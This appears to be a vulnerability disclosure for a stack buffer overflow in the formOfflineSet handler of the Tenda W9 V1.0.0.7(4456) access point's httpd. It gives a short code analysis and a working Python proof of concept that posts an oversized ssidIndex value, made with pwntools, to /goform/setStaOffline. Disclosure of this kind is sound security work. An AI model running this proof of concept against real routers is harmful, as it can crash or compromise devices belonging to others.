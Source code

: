 # Tenda W9 V1.0.0.7(4456) AP has stack buffer overflow vulnerability
## Information

Vendor：https://www.tendacn.com/

Firmware：https://www.tenda.com.cn/download/detail-2986.html

## Affected Version
V1.0.0.7(4456)
## Vulnerability Analysis
The following image displays the code for a stack buffer overflow vulnerability in the `formOfflineSet` function of `httpd`. The value of the `ssidIndex` parameter will be concatenated ​​to local variable `s`, which will cause stack buffer overflow. 

![code](./code.png)
## POC
```python
import requests
from pwn import *
url = "http://192.168.0.1/goform/setStaOffline"

payload = { 
    'ssidIndex': cyclic(5000),
    'radio': '2.4G'
    }

headers = {
    'Cookie':'w9v1_user=admin;'
}
requests.request("POST", url, data=payload, headers=headers)
```
## NOTE
The vendor was contacted early about this disclosure but did not respond in any way.
